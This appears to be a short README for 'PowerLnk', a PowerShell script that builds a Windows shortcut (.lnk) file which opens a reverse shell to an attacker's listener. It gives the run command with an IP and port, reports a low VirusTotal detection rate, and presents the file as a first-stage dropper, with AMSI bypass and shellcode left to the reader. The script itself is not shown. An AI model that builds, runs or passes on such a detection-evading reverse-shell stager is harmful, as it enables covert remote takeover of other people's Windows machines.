# PowerLnk
generates a .Lnk file that executes a reverse shell in powershell

# Useage
script takes two parameters -ip and -port where ip and port is the device you are listening on

./PowerLnk.ps1 -ip '192.168.1.5' -port 443

# Current detection

scored a 6/62 on virus total, intended for second stagers to be executed after initial callback due to including more to the lnk increases detections, so amsi, shellcode etc should be run after inital callback. I'll leave that up to yall to implement that for whatever engagement you're doing.
